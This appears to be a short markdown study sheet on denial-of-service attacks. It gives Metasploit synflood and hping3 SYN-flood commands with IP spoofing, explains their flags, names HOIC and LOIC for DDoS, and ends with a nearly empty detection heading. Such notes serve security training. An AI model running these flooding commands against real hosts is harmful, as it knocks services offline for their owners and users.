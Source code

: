 # Denial Of Service

## DoS and DDoS attacks using various Techniques

### DoS attack (SYN flooding) on a target host using Metasploit

```
msfconsole
use auxiliary/dos/tcp/synflood
```

### DoS attack on a target host using hping3

```
hping3 -S (Target IP Address) -a (Spoofable IP Address) -p port --flood
hping3 -d 65538 -S -p port --flood (Target IP Address)
```
hping3 floods the victim machine by sending bulk packets, and thereby overloading the victim’s resources.

* -d: specifies data size;
* -S: sets the SYN flag;
* -p: specifies the destination port;
* --flood: sends a huge number of packets.
* -a: Spoofable IP address

```
hping3 -2 -p port --flood
```

### DDoS attack using HOIC (Windows)
### DDoS attack using LOIC (Windows)

## Detect and protect against DoS and DDoS attacks

### Detect and protect against DDoS attacks using Anti DDoS Guardian

